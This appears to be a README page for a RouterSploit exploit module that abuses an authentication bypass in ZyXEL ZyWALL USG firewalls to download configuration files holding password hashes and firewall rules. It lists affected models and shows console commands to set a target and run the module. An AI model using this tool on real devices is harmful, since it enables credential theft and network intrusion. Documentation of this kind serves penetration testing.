 # Zyxel ZyWALL USG Extract Hashes

## Description
Exploit implementation for ZyWall USG 20 Authentication Bypass In Configuration Import/Export.If the tharget is vulnerable it allows to download configuration files which contains sensitive data like password hashes, firewall rules and other network related configurations.

## Authors
* RedTeam Pentesting # vulnerability discovery

## References
* [https://www.exploit-db.com/exploits/17244/](https://www.exploit-db.com/exploits/17244/)

## Vulnerable devices
* ZyXEL ZyWALL USG-20
* ZyXEL ZyWALL USG-20W
* ZyXEL ZyWALL USG-50
* ZyXEL ZyWALL USG-100
* ZyXEL ZyWALL USG-200
* ZyXEL ZyWALL USG-300
* ZyXEL ZyWALL USG-1000
* ZyXEL ZyWALL USG-1050ZyXEL ZyWALL USG-2000

## Usage
```
rsf > use exploits/zyxel/zywall_usg_extract_hashes
rsf (Zyxel ZyWALL USG Extract Hashes) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. https://192.168.1.1
   port       443                  Target port


rsf (Zyxel ZyWALL USG Extract Hashes) > set target https://192.168.1.1
[+] {'target': 'https://192.168.1.1'}
rsf (Zyxel ZyWALL USG Extract Hashes) > run
[*] Running module...
```
